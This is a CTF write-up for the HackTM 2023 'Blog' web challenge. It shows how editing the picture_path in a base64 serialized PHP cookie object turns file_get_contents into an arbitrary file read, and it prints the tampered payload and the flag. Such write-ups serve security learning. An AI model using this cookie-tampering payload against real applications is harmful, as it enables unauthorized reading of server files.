 ```yaml
---
title: HackTM CTF 2023 - Writeup
author: H0j3n
date: 2023-02-19 00:00:00
categories: [ctf]
tags: [ctf,writeup]
render_with_liquid: false
---
```


This write-up serves as a personal reference and a tool for me to practice CTF. It includes information and solutions collected from various sources, including challenges that were not solved during the event.

### Category : Web

#### Web : Blog

> We made a new blogging website for everyone to use! It's pretty basic for now, and it has a few limitations like:
> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)
> 
> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)
> 
> Link: [http://34.141.16.87:30000/](http://34.141.16.87:30000/)
> 
> File: `dist.zip`

We received a file named `dist.zip`, which includes a dockerfile that contains a `COPY` function to transfer the contents of `./chal/flag.txt` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`

> `COPY`: The `COPY` instruction in a Dockerfile is used to copy files or directories from the host machine into the container during the build process.
{: .prompt-info }

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm1.png)

In `util.php`, the `file_get_contents` PHP function is used to retrieve a user's profile image. 

```php
class Profile {
	public function __toString() {
			// ------snip------
			$picture = base64_encode(file_get_contents($this->picture_path));
			// ------snip------
	    }
}
```

When a new account is registered and a user logs in, a cookie is generated that contains a serialized PHP object in base64 format.

- **Encoded Base64** 
```bash
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo4OiJhZG1pbjMyMSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

- **Decoded Base64**
```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

The serialized PHP object contains the path to the user's profile image. When the server responds to the user's request, the response includes the base64-encoded content of the user's profile image.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm2.png)

To retrieve the flag, we modify the path to the profile image in the serialized PHP object to point to the flag path, and then decode the base64 response.

```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm3.png)

Flag: `HackTM{r3t__toString_1s_s0_fun_13c573f6}`

